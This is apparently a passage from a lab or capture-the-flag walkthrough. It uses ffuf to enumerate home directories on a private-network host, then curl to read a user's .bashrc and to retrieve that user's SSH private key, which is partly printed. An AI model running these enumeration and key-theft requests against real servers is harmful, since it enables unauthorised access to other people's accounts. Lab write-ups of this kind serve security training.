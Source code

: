 ```
[...]
```

`ffuf -u http://192.168.56.122:3333/USERNAME/.bashrc -w /usr/share/wordlists/seclists/SecLists-master/Usernames/xato-net-10-million-usernames.txt:USERNAME -t 100 -fr "NOT EXIST"`:
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.122:3333/USERNAME/.bashrc
 :: Wordlist         : USERNAME: /usr/share/wordlists/seclists/SecLists-master/Usernames/xato-net-10-million-usernames.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: NOT EXIST
________________________________________________

jan                     [Status: 200, Size: 2602, Words: 7, Lines: 39, Duration: 48ms] ←

[...]
```

`curl "http://192.168.56.122:3333/jan/.bashrc" -s`:
```  
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

[...]
```

`curl "http://192.168.56.122:3333/jan/.ssh/id_rsa" -s`:
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA6Tzy2uBhFIRLYnINwYIinc+8TqNZap0CB7Ol3HSnBK9Ba9pGOSMT
Xy2J8eReFlni3MD5NYpgmA67cJAP3hjL9hDSZK2UaE0yXH4TijjCwy7C4TGlW49M8Mz7b1
LsH5BDUWZKyHG/YRhazCbslVkrVFjK9kxhWrt1inowgv2Ctn4kQWDPj1gPesFOjLUMPxv8
fHoutqwKKMcZ37qePzd7ifP2wiCxlypu0d2z17vblgGjI249E9Aa+/hKHOBc6ayJtwAXwc
ivKmNrJyrSLKo+xIgjF5uV0grej1XM/bXjv39Z8XF9h4FEnsfzUN4MmL+g8oclsaO5wgax
5X3Avamch/vNK3kiQO2qTS1fRZU6T7O9tII3NmYDh00RcpIZCEAztSsos6c1BUoj6Rap+K
s1DZQzamQva7y4Grit+UmP0APtA0vZ/vVpqZ+259CXcYvuxuOhBYycEdLHVEFrKD4Fy6QE
kC27Xv6ySoyTvWtL1VxCzbeA461p0U0hvpkPujDHAAAFiHjTdqp403aqAAAAB3NzaC1yc2
EAAAGBAOk88trgYRSES2JyDcGCIp3PvE6jWWqdAgezpdx0pwSvQWvaRjkjE18tifHkXhZZ
4tzA+TWKYJgOu3CQD94Yy/YQ0mStlGhNMlx+E4o4wsMuwuExpVuPTPDM+29S7B+QQ1FmSs
hxv2EYWswm7JVZK1RYyvZMYVq7dYp6MIL9grZ+JEFgz49YD3rBToy1DD8b/Hx6LrasCijH
Gd+6nj83e4nz9sIgsZcqbtHds9e725YBoyNuPRPQGvv4ShzgXOmsibcAF8HIrypjaycq0i
yqPsSIIxebldIK3o9VzP21479/WfFxfYeBRJ7H81DeDJi/oPKHJbGjucIGseV9wL2pnIf7
```